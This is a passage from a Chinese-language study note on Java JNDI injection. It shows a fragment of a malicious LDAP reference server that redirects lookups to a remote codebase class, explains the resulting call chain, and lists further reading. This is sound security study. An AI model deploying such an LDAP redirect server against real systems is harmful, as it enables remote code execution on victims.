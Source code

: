 ```java
        if (javaFactory != null){
            URL turl = new URL(cbstring + javaFactory.concat(".class"));
            System.out.println(getLocalTime() + " [LDAPSERVER] >> Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", javaFactory);
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }else {
            System.out.println(getLocalTime() + " [LDAPSERVER] >> Reference that matches the name(" + base + ") is not found.");
        }
    }
}
```

当客户端来lookup这个生成好的ldap远程地址时，会在各种lookup后收到一个Reference对象，在处理过程中会导致静态代码块的命令执行

lookup--------------->DirectoryManager.getObjectInstance->NamingManager.getObjectFactoryFromReference

### RMIRefServer

跟RMI的利用类似，不详说

lookup--------------->RegisterContext.decodeObject->NamingManager.getObjectInstance->NamingManager.getObjectFactoryFromReference

------

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接🔗 每日感谢互联网的丰富资源（" %}}

[JNDI注入分析](http://tttang.com/archive/1611/)

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上）](https://paper.seebug.org/1091/)

[Z3专栏 | JNDI注入和工具分析](https://www.freebuf.com/articles/web/317625.html)

[浅析JNDI注入](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/)

[浅析高低版JDK下的JNDI注入及绕过](https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/)

[由JNDI注入引发的Spring Framework反序列化漏洞](https://www.mi1k7ea.com/2019/09/02/%E7%94%B1JNDI%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E7%9A%84Spring-Framework%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

{{% /spoiler %}}









